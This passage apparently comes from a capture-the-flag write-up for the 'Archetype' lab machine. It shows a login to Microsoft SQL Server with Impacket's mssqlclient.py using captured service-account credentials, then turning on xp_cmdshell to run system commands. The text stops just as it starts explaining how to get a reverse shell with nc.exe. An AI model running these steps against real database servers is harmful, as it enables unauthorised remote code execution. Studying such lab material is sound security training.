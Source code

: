 The command that we are going to use is `mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.151.242`

Using the shell, we can enable system's commands execution using the command `enable_xp_cmdshell` and then `reconfigure`, then we will be able to execute any command using `xp_cmdshell <command>`.

```cmd
mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.151.242
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
SQL> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell whoami 
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL    
```

### Obtaining a reverse shell

We now have Remote Code Execution (RCE), so the next stage is to get a reverse shell. A reverse shell is where the target machine, which in this case is the Windows machine initiates the connection to our machine, which is listening for incoming connections on a specific port.

We will be using the binary of `netcat` `nc.exe`, it should be available in your Kali or Parrot machine. The process will be:
